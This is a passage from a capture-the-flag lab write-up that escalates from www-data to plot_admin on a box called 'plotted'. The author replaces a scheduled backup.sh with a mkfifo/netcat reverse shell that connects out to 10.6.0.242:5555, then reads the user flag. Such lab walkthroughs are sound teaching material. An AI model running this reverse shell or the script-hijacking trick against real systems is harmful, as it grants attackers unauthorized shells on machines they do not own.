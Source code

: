 Looking at our permissions on the directory this script is in shows that we own it. So while we can't edit the file, we can simply delete it, recreate it, and add whatever we want it to do to the new file:

```
ww-data@plotted:/var/www/scripts$ ls -al
total 12
drwxr-xr-x 2 www-data   www-data   4096 Jan 16 22:19 .
```

```
www-data@plotted:/var/www/scripts$ rm backup.sh
rm: remove write-protected regular file 'backup.sh'? y
www-data@plotted:/var/www/scripts$ ls -al
total 8
drwxr-xr-x 2 www-data www-data 4096 Jan 16 22:21 .
drwxr-xr-x 4 root     root     4096 Oct 28  2021 ..
www-data@plotted:/var/www/scripts$
```

And I recreate the file with a nc mkfifo reverse shell in it, which will get run by the plot_admin user giving us a shell with that user:

```
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.6.0.242 5555 >/tmp/f
```

I `chmod +x` the file to make it executable and then set up a listener on my system and wait for it to connect back. After it does I upgrade the shell so it's interactive:

![](images/plotted-tms11.png)

We're now able to grab out first user.txt flag:

`wc -c /home/plot_admin/user.txt`
